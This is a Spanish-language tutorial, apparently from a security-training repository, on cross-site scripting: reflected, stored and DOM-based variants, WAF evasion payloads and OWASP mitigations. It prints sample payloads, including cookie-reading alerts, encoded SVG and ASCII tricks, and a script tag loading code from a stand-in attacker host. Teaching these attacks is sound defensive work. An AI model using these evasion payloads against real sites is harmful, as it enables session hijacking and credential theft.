

# Vulnerabilidades de Secuencias de Comandos entre Sitios (XSS)
Las vulnerabilidades de **_secuencias de comandos entre sitios (XSS)_**, que se han convertido en una de las vulnerabilidades de aplicaciones web más comunes, se logran mediante los siguientes tipos de ataques:<br>
- XSS reflejado
- XSS almacenado (persistente)
- XSS basado en DOM

La explotación exitosa podría resultar en la instalación o ejecución de código malicioso, compromiso de cuentas, secuestro de cookies de sesión, revelación o modificación de archivos locales, o redirección del sitio.<br>

Normalmente, las vulnerabilidades de XSS se encuentran en lo siguiente:<br>
- Campos de búsqueda que devuelven una cadena de búsqueda al usuario
- Encabezados HTTP
- Campos de entrada que repiten los datos del usuario
- Mensajes de error que devuelven texto proporcionado por el usuario
- Campos ocultos que pueden incluir datos de entrada del usuario
- Aplicaciones (o sitios web) que muestran datos proporcionados por el usuario

El siguiente ejemplo muestra una prueba de XSS que se puede realizar desde la barra de direcciones del navegador:<br>

```
    javascript:alert("Omar_s_XSS test");
    javascript:alert(document.cookie);
```

El siguiente ejemplo muestra una prueba XSS que se puede realizar en un campo de entrada de usuario en un formulario web:<br>

```JavaScript
    <script>alert("XSS Test")</script>
```

# Ataques XSS Reflejados
Los ataques XSS reflejados se producen cuando una aplicación web vulnerable inyecta código o scripts maliciosos mediante cualquier método que dé una respueste como parte de una solicitud HTTP válida. Un ejemplo de ataque XSS reflejado es el de persuadir a un usuario de que siga un enlace malicioso a un servidor vulnerable que inyecta el código malicioso en el navegador del usuario. Esto hace que el navegador ejecute el código o la secuencia de comandos (script). En este caso, el servidor vulnerable suele ser un sitio conocido o de confianza.<br>
### Pasos de un ataque XSS reflejado
- __Paso 1__. El atacante encuentra una vulnerabilidad en el servidor web.
- __Paso 2__. El atacante envía un enlace malicioso a la víctima.
- __Paso 3__. La víctima hace clic en el enlace malicioso y el ataque se envía al servidor vulnerable.
- __Paso 4__. El ataque se refleja hacia la víctima y se ejecuta.
- __Paso 5__. La víctima envía información (dependiendo del ataque) al atacante.<br>

# Ataques XSS Almacenados
Los ataques XSS almacenados o persistentes se producen cuando un código malicioso o un script se almacenan permanentemente en un servidor vulnerable o malicioso mediante una base de datos. Estos ataques generalmente se llevan a cabo en sitios web que alojan publicaciones en blogs, foros web y otros métodos de almacenamiento permanente. Un ejemplo de un ataque XSS almacenado es un usuario que solicita la información almacenada del servidor vulnerable o malicioso, lo que provoca la inyección del script malicioso solicitado en el navegador de la víctima. En este tipo de ataque, el servidor vulnerable suele ser un sitio conocido o de confianza.<br>

_Ataque XSS Almacenado en un Formulario Web_<br>

<br>

Despues de que el usuario hagta clic en _Sign Guestbook_, aparecerá el cuadro de diálogo que se muestra en la imagen. El ataque persiste porque incluso si el usuario navega fuera de la página y regresa a esa misma página, el cuadro de diálogo sigue apareciendo.<br>

_Ataque XSS Persistente_<br>



En este ejemplo, el mensaje del cuadro de diálogo es "Omar was here!" Sin embargo, en un ataque real, un atacante puede presentar a los usuarios un texto que los convenza de realizar una acción específica, como "su contraseña ha vencido" o "vuelva a iniciar sesión". El objetivo del atacante sería redirigir al usuario a otro sitio para robar sus credenciales cuando el usuario intenta cambiar la contraseña o iniciar sesión una vez más en la aplicación falsa.<br>

El Modelo de Objeto de Documento (DOM) es una interfaz de programación de aplicaciones multiplataforma e independiente del lenguaje que trata un documento HTML, XHTML o XML como una estructura en forma de árbol. Los ataques basados en DOM suelen ser ataques XSS reflejados que se activan mediante el envío de un enlace con entradas que se reflejan en el navegador web. En los ataques XSS basados en DOM la carga útil nunca se envía al servidor. En cambio, la carga útil solo la procesa el cliente web (navegador).<br>

En un ataque XSS basado en DOM, el atacante envía una URL maliciosa a la víctima, y, después de que la víctima haga clic en el enlace, el atacante puede cargar un sitio web malicioso o un sitio que tenga un controlador de ruta DOM vulnerable. Una vez que el navegador representa el sitio vulnerable, la carga útil ejecuta el ataque en el contexto del usuario en este sitio.<br>

Uno de los efectos de cualquier tipo de ataque XSS es que la víctima generalmente no se da cuenta de que se ha producido un ataque.<br>

# Técnicas de Evasión de XSS
Se pueden utilizar numerosas técnicas para evadir las protecciones y los productos de seguridad XSS, como los firewalls de aplicaciones web (WAF). En lugar de enumerar todas las diferentes técnicas de evasión descritas por OWASP, esta sección revisa algunas de la técnicas más populares.<br>
Primero, echemos un vistazo a una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros y soluciones de seguridad XSS:<br>

```HTML
    <SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```
El siguiente ejemplo muestra como la etiqueta HTML __img__ se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:<br>

```HTML
    
    
    
    
```
También es posible utilizar otras etiquetas HTML maliciosas (como etiquetas), como se demuestra aquí:<br>

```HTML
    <a onmouseover="alert(document.cookie)">This is a malicious link</a>
    <a onmouseover=alert(document.cookie)>This is a malicious link</a>
```

Un atacante también puede usar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS:<br>

```HTML
    
```
La codificación ASCII de EE. UU. puede omitir muchos filtros de contenido y también se puede utilizar como técnica de evasión, pero solo funciona si el sistema transmite en codificación ASCII de EE. UU. O si se configura manualmente. Esta técnica es útil contra WAF. En el siguiente ejemplo, se muestra el uso de la codificación ASCII de EE. UU. para evadir los WAF:<br>

```
    ¼script¾alert(¢XSS¢)¼/script¾
```

El siguiente ejemplo muestra una técnica de evasión que implica el uso de la etiqueta HTML __embed__ para insertar un archivo de Gráficos Vectoriales Escalables (SVG):<br>

```HTML
    <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH
    A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm
    cvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3
    hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW
    dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdC
    I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" 
    AllowScriptAccess="always"></EMBED>
```

# Mitigaciones de XSS
Las siguientes son reglas generales para prevenir ataques XSS según OWASP:<br>
- Utilice un sistema de plantillas con escape automático.
- Nunca inserte datos que no sean de confianza, excepto en ubicaciones permitidas.
- Utilice el escape HTML antes de insertar datos no confiables en el contenido de un HTML.
- Utilice el atributo de escape antes de insertar datos no confiable en los atributos comunes de un HTML.
- Utilice el escape de JavaScript antes de insertar datos no confiables en valores de datos de JavaScript.
- Utilice el escape CSS y valide estrictamente antes de insertar datos no confiables en valores de propiedad de estilo HTML.
- Utilice el escape de URL antes de insertar datos que no sean de confianza en los valores de los parámetros de URL HTML.
- Sanitice el marcado HTML con una biblioteca como ESAPI para proteger la aplicación subyacente.
- Evite el XSS basado en DOM siguiendo las recomendaciones de [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Utilice el indicador de cookie __HTTPOnly__.
- Implemente la política de seguridad de contenido.
- Utilice el encabezado de respuesta X-XSS-Protection.<br>

También debe convertir entradas no confiables en un formato seguro donde la entrada se muestre como datos para el usuario. Esto evita que la entrada se ejecute como código en el navegador. Para ello, realice la siguiente codificación de entidad HTML:<br>

- Convertir `&` a `&amp;`
- Convertir `<` a `&lt`
- Convertir `>` a `&gt`
- Convertir `"` a `&quot`
- Convertir `"` a `&#x27`
- Convertir `/` a `&#x2F;`

Los siguientes son procedimientos adicionales recomendados para prevenir ataques XSS:<br>
- Escape todos los caracteres (incluidos los espacios pero sin los caracteres alfanuméricos) con el formato de entidad HTML `&#xHH` (donde HH es un valor hexadecimal).
- Utilice solo la codificación de URL, no la URL completa o los fragmentos de ruta de una URL, para codificar los valores de los parámetros.
- Escape todos los caracteres (excepto los caracteres alfanuméricos), con el formato de escape Unicode ``\uXXXX`` (donde X es un entero).
- El escape CSS admite `\XX` y `\XXXXXX`, así que agregue un espacio después del escape CSS o use la cantidad total de escape CSS posible rellenando el valor con ceros.
- Eduque a los usuarios sobre la navegación segura para reducir el riesgo de ser víctimas de ataques XSS.<br>
Los controles XSS ahora están disponibles en los navegadores web modernos.<br>


